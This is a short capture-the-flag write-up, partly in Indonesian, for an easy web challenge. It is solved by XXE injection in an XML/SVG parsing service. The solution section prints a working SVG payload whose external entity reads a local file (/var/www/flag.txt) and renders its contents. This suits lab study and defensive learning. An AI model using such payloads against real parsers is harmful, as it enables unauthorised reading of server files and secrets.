 # EXtravagant
#easy #web #xxe

Tools:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg

I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.  

## Target
The flag is in /var/www
- XML input
![](attachments/Pasted%20image%2020220503162926.png)

XML preview
![](attachments/Pasted%20image%2020220503162940.png)



## Solusi
- Menggunakan klasik XXE dari: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg
- Buat file `explo2.svg`
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///var/www/flag.txt" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>   
```
- Upload `explo2.svg`
![](attachments/Pasted%20image%2020220503164726.png)

- Lihat isi dari `explo2.svg`
![](attachments/Pasted%20image%2020220503164807.png)

- Flag
![](attachments/Pasted%20image%2020220503164751.png)

